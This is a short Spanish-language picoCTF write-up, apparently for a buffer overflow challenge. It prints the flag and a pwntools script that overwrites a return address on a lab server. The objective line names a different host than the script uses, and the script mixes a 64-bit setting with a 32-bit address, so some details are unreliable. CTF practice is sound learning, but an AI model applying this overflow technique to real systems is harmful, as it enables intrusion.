 ## Objetivos
Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:34561/](http://mercury.picoctf.net:34561/)
## Solucion
Se usara el mismo programa ya que son muy similares solo cambiaremos unas pequeñas cosas como en nc que nos proporcionan 

picoCTF{addr3ss3s_ar3_3asy_0195a40f}

crearemos un programa de python el cual realizara todas las operaciones que hariamosnosotros manualmente 
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 61481)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
a += "\xf6\x91\x04\x08"
io.sendline(a)

io.interactive()


## Referencias
[ayuda](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1)
